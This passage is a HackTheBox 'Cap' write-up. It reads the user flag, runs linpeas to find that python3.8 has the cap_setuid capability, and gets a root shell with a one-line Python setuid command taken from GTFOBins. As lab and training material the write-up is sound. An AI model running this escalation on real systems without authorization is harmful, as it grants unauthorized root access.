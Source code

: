 ```bash


Last login: Tue Sep 21 15:17:56 2021 from 10.10.14.12
nathan@cap:~$ cat user.txt 
08044e*****************55cf3d884
nathan@cap:~$ 
```

* I found the User flag . 
* Now its time to escalate my privilege to root.
* Then Uploaded the linpeas script and found the capabilities very intresting.

```sql

Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

```
 
 * Then, a quick search on [gtfobins](https://gtfobins.github.io/gtfobins/python/#capabilities) led me to the root shell.
 
```sql 

nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# cd /root
# ls
root.txt  snap
# wc -c root.txt
33 root.txt
# cat root.txt
80aa**********************9509da
# 

```

* Thanks for reading! Make sure you subscribe to the [blog](https://blog.alien0ne.me) for more upcoming HackTheBox writeups!